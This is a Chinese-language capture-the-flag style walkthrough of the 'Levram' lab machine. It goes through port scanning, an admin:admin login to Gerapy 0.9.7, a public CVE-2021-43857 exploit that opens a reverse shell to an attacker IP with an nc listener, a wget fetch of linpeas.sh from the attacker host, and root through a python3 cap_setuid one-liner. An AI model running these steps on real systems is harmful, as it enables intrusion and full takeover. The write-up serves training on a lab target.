

# ✔️ Levram

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和8000

```bash
nmap -sC -sV -oA levram 192.168.124.24 --open
```

<figure><figcaption></figcaption></figure>

* 检查8000端口上的内容，尝试弱口令登录成功： **admin : admin**

<figure><figcaption></figcaption></figure>

* 并发现了当前正在运行的程序及其版本号：**Gerapy v0.9.7**

<figure><figcaption></figcaption></figure>

* 枚举8000端口上的隐藏文件/目录，找到了/admin目录：

<figure><figcaption></figcaption></figure>

* 在8000端口上的/robots.txt里的/admin目录对应上：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 查看发现是Django Administration登录页面，使用弱口令登录成功：**admin:admin**

<figure><figcaption></figcaption></figure>

* 依次查看并无任何有用的收获：

<figure><figcaption></figcaption></figure>

### 漏洞查阅

* 根据之前已获取到的正在运行的程序Gerapy v0.9.7，查找到了公开的可利用漏洞：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了可以直接利用的脚本，无需修改直接执行：

<figure><figcaption></figcaption></figure>

### Get Shell

* 执行cve-2021-43857.py：

```bash
python3 cve-2021-43857.py -u http://192.168.193.24:8000 -U admin -P admin -r 192.168.45.244 -p 4444
# 监听：
nc -lvnp 4444
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 获取到local.txt：

<figure><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传linpeas.sh进行信息收集：

```bash
# Kali：
python3 -m http.server
# target：
wget http://192.168.45.244:8000/linpeas.sh
```

<figure><figcaption></figcaption></figure>

* 执行linpeas.sh：

```bash
chmod 777 linpeas.sh
./linpeas.sh
```

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 从linpeas.sh的输出结果中得知Files with capabilities这一项的 **/usr/bin/python3.10 cap\_setuid=ep** 可被利用：

<figure><figcaption></figcaption></figure>

* 这是因为python 3.10作为可执行文件，被赋予了cap\_setuid的能力。在GTFOBins中找到了可利用的命令：

<figure><figcaption></figcaption></figure>

### ROOT

* 先切换到/bin目录下，因为python在该目录下。然后执行以下命令即可提权到root权限：

```bash
cd /usr/bin
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

<figure><figcaption></figcaption></figure>

* 获取到proof.txt：

<figure><figcaption></figcaption></figure>
